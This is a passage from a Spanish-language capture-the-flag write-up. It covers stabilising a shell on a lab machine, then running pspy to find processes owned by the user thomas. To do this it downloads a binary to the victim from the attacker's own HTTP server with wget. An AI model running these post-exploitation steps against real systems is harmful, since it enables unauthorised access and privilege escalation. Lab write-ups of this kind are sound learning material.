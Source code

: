 > Tratamiento de la tty :
{: .prompt-info}

> script /dev/null -c bash
> 
> (Ctrl + z)
>
> stty raw -echo; fg
>
> reset xterm
> 
> export SHELL=bash
>
> export TERM=xterm

Intentamos buscar otros usuarios y encontramos a **thomas** el cuál contiene la flag, pero no tenemos permisos para verla:

![Permisison\_Denied](permission_denied_flag.png){: .shadow }

Usamos la herramienta `pspy` para obtener información de procesos que ejecutan otros usuarios en el sistema, con esto podemos tener una brecha para acceder al
 usuario **thomas**. Pueden descargar la herramienta en el siguiente repositorio: [https://github.com/DominicBreuker](https://github.com/DominicBreuker/pspy/r
eleases/tag/v1.2.0)

Una vez descargado lo pasamos a la máquina victima con la herramienta `wget` y compartiendo un servidor http con `python3`:

> En nuestra máquina :
>
> 1. Nos dirigimos al directorio en donde tenemos el binario
> 
> 2. Abrimos un servidor http con python3: python3 -m http.server \<port\>
>
> En la máquina víctima :
>
> 1. Nos dirigimos a un directorio para descargar archivos sin problemas (/tmp)
>
> 2. Ya comprobado que la máquina tiene wget: wget http://nuestra\_IP:\<port\>/nombre\_del\_binario

![Pspy\_Share](pspy_share.png){: .shadow }

Ahora solo queda darle permisos de ejecución al binario, lo compilamos y esperando unos minutos logramos identificar los procesos `/usr/local/bin/convert_images.sh` y `/usr/local/bin/mogrify` con **UID=1000**, el cual pertenece al usuario **thomas**:

![Mogrify](mogrify_process.png){: .shadow }

Al ver el binario `convert_images.sh` observamos que se dirige a una determinada carpeta y luego con `mogrify` convierte a formato `.png` todos los archivos:

![Conver\_images](convert_images_script.png){: .shadow }
